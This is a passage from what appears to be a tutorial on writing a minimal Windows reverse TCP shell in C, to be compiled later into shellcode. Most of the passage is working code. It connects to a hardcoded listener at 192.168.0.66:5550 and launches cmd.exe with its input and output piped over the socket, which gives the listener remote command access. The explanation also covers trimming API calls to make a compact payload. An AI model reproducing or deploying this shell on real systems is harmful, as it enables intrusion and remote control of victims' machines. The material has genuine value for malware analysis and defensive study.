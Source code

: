 Since our goal is to eventually compile this to shellcode, we're going to try to keep things as simple and efficient as possible. In the various examples of C reverse TCP/IP shells that I've seen, there are usually some unnecessary calls to things like `atoi()` or `htons()` to format the IP address and port numbers, along with other calls to functions to resolve hostnames, exit the process nicely, etc. Since we will end up needing to resolve the address of every library or API function we use, we will go ahead and dispense of anything not strictly necessary.

Let's begin by declaring the variables that we need:

```c
  //declaring winapi variables
  WSADATA wsaData;
  SOCKET Winsock;
  struct sockaddr_in info;
  STARTUPINFOW procStartInfo = { 0 };
  PROCESS_INFORMATION procInfo;
      
  //formatting ipv4 address 192.168.0.66 as 4 uchars
  UCHAR addrb1 = 192;
  UCHAR addrb2 = 168;
  UCHAR addrb3 = 0;
  UCHAR addrb4 = 66;

  //port as a ushort
  //using port 5550, in hex = 0x15AE
  //swap endianess for network byte order = 0xAE15
  USHORT port = 0xAE15;
```

This is as simple as I think we can make this. We will use a designated initializer for the STARTUPINFOW struct, which will initialize it to all zeroes and save us from needing to call `memset()` later. By defining our target listener IP address as 4 bytes, we won't need to mess around with converting from strings or arrays, and we can set the ip address in the `sockaddr_in` struct directly. We will also manually convert our target listener port number (5550) to hex and swap the bytes to follow network byte order convention, avoiding needing to call `htons()`.

After our variables are declared/defined, all we have to do is call the Winsock functions to initialize everything:

```c
WSAStartup(0x202, &wsaData);
Winsock = WSASocketW(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
info.sin_family = AF_INET;
info.sin_port = port;
info.sin_addr.S_un.S_un_b.s_b1 = addrb1;
info.sin_addr.S_un.S_un_b.s_b2 = addrb2;
info.sin_addr.S_un.S_un_b.s_b3 = addrb3;
info.sin_addr.S_un.S_un_b.s_b4 = addrb4;
WSAConnect(Winsock, (SOCKADDR*)&info, sizeof(info), NULL, NULL, NULL, NULL);
```

With the connection to our listener established with `WSAConnect`, we can start a cmd.exe process and redirect input and output to it:

```c
procStartInfo.dwFlags = STARTF_USESTDHANDLES;
procStartInfo.hStdInput = procStartInfo.hStdOutput = procStartInfo.hStdError = (HANDLE)Winsock;
LPCWSTR path = L"cmd.exe";
CreateProcessW(path, NULL, NULL, NULL, TRUE, 0, NULL, NULL, &procStartInfo, &procInfo);
```
